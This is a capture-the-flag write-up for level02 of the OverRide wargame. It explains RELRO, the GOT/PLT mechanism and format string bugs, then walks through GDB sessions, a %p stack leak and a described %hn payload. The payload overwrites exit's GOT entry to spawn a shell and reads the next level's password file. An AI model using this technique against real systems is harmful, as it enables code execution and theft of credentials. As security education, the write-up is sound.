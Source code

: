 # Tools
[Dogbolt - Decompiler Explorator](https://dogbolt.org/)
[Cutter - Reverse Engineering Tool](https://cutter.re/)
[GNU DeBugger - GDB](https://fr.wikipedia.org/wiki/GNU_Debugger)

# Exploit
The home of level02 contains a binary, as usual.
However, traditionally the message is:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level01/level01
```
Indicating a partial RELRO, but this time we have got:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level02/level02
```
So, for that exploit, there is no [RELRO](https://ctf101.org/binary-exploitation/relocation-read-only/).
Basically, RELRO is a system that makes parts of a binary read-only. It mainly concerns the Global Offset Table (or GOT for short), which stores all the offsets of the different functions belonging to dynamic libraries. These offsets are retrieved using the Procedural Linking Table (PLT).
Having no RELRO means it's easier to make a GOT/PLT exploit, thus that's where we are going to be on the lookout for.

## What's GOT and PLT?
When a program requires external libraries, the compiler will dynamically link them to the binary. 
Example:
```c
int main() {
	printf("Hello World1\n");
	exit(0);
	return 0;
}
```
`printf()` and `exit()` are clearly not defined in my code, they belong to the libc.
Using `ldd`, we can see that the `level02` binary also depends on external and dynamically linked libraries:
```
level02@OverRide:~$ ldd level02
	linux-vdso.so.1 =>  (0x00007ffff7ffd000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7c37000)
	/lib64/ld-linux-x86-64.so.2 (0x0000555555554000)
```
The problem is, how am I suppose to find the address of certain functions, when I can't know in advance where the library is going to be located? (if ASLR is on, the address of the library changes at each execution).
THat's where the GOT/PLT system comes handy.

During compilation, we don't know yet at what addresses external functions are. So we create a "trampoline function", that's going to then bounce to the real function once we will have linked the compiled files and the external libraries. The PLT (where the execution bounces to) will retrieve the real address of the function and store it in a table: the GOT.

The first time we land in the tremplin function, the address of teh real function isn't resolved yet.
So the code uses the function `dl_runtime_resolve`, a funtion of the dynamic linker / loader, responsible for retrieving the address, stroing it in the GOT and executing the desired function. Once it has been retrieved once, it's cached in the GOT for next uses.

Example tremplin function:
```
j_puts:
	jmp	qword [ds:puts@GOT] ; <-- Is not set so will get ignored
	push 0x0 ; Increases by one for each function to be dynamically loaded
	jmp 0x400440 ; Call to `dl_runtime_resolve`
```
Once `dl_runtime_resolve` has been called once, the address in the GOT is updated, so it jumps at the first jump instruction and don't go through the `push` and second `jmp` instruction again. 

## Printf Exploitation
`printf()` seems to be a pretty useless function when it comes to finding vulnerabilities.
Actually, it's not. 
`printf()` being called like:
```c
printf(user_supplied_input);
```
can lead to serious problems. As you can see, the format string is passed by the user and there are no parameters after the format string. The correct way to call tjat function would have been:
```c
printf("%s", user_supplied_input);
```

`printf` supports different formatters. The one we will take a look at are `%x` and `%n`.
On the first hand, `%x` allows one to dump memory out of the stack: `printf` makes a `pop` and prints stack addresses.
On the second hand, `%n` allows one to write on the stack: it writes the numbers of bytes written by `printf` so far. Example: `printf("AAAA%n");` will write 4 on the stack (still, notice the lack of variadic parameters after the format string), effectively performing a `psh` on the stack.

Using that information, we can `pop` and `psh` data out and to the stack, and try to corrupt specific parts of it. See [Simple format String exploit - LiveOverflow](https://www.youtube.com/watch?v=0WvrSfcdq1I)


## Combining GOT/PLT with a Format String exploit
As we can see in the source file, the program exits if the password is wrong. We are going to use the gathered knowledge to redirect the execution by overwriting the exit entry in the GOT.

Start GDB.
Upon disassembmling main, we see that the address where we want to resume execution is `0x0000000000400a85`, there address where "/bin/sh" is being moved to the register `edi` before the `system` call.

Then, we add a breakpoint to the first `exit` call, where the program exits if it couldn't open the `.pass` file; it's going to happen has GDB doesn't start the binary with SUID permission, so it's going to exit here as it couldn't open the file.
```
(gdb) b *0x00000000004008e1
```
Start the program, we reach the break point. Now, we disassemble the exit function (which is actually the tremplin function made by our program waiting for GOT/PLT to cache the real address of the `exit` function in `libc`):
```
(gdb) disass 0x400710
Dump of assembler code for function exit@plt:
   0x0000000000400710 <+0>:	jmp    QWORD PTR [rip+0x200b12]        # 0x601228 <exit@got.plt>
   0x0000000000400716 <+6>:	push   0xa
   0x000000000040071b <+11>:	jmp    0x400660
End of assembler dump.
```
As you can see, there the address of `exit` in the GOT specified in comment.
If we examine that address:
```
(gdb) x 0x601228
0x601228 <exit@got.plt>:	0x00400716
```
We see that it belongs in the `GOT/PLT` process.

Still in GDB, on the breakpoint, we can simulate the GOT attack by replacing the value stored in the GOT for `exit` by the address where we want to resume execution:
```
(gdb) set {int}0x601228=0x0000000000400a85
(gdb) c
Continuing.
$ ls
input.txt  level02  test  test_program.c
```
It works!

Now, let's do it for real.

By fidgetting with the program, I found that I needed to 7 values to access my data (the 8th value); `0x74736574` is `test`, reversed.
```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p %p %p %p %p %p %p %p
--[ Password: test
*****************************************
0x7fffffffe580 (nil) 0x74 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe778 0x1f7ff9a08 0x74736574 does not have access!
level02@OverRide:~$
```

Our goal is to rewrite the 4 lowest bytes of the GOT saved address of exit by the 4 lowest bytes of the address we want to resume execution to. These are: `0x0a85` = `2693`.

We pop 6 characters before writing, so that's 2693 - 6 = 2687 characters to write, then use `%hn` to only writes the lowest bytes and pad to fill the buffer.

Then, we add on the stack the address of where we want to write, the address in GOT of `exit` using `struct.pack("Q", EXIT)`, 'Q' as the address is an address on a 64-bit system.

Write the output of the payload in a file, feed the file in the program while keeping the standard entry open:
```
level02@OverRide:~$ python payload.py > input.txt && cat input.txt - | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
...
cat /home/users/level03/.pass
```

# Resources
[GOT and PLT Explanation - LiveOverflow](https://www.youtube.com/watch?v=kUk5pw4w0h4)
[Format String Exploit on GOT - LiveOverflow](https://www.youtube.com/watch?v=t1LH9D5cuK4)
[Simple format String exploit - LiveOverflow](https://www.youtube.com/watch?v=0WvrSfcdq1I)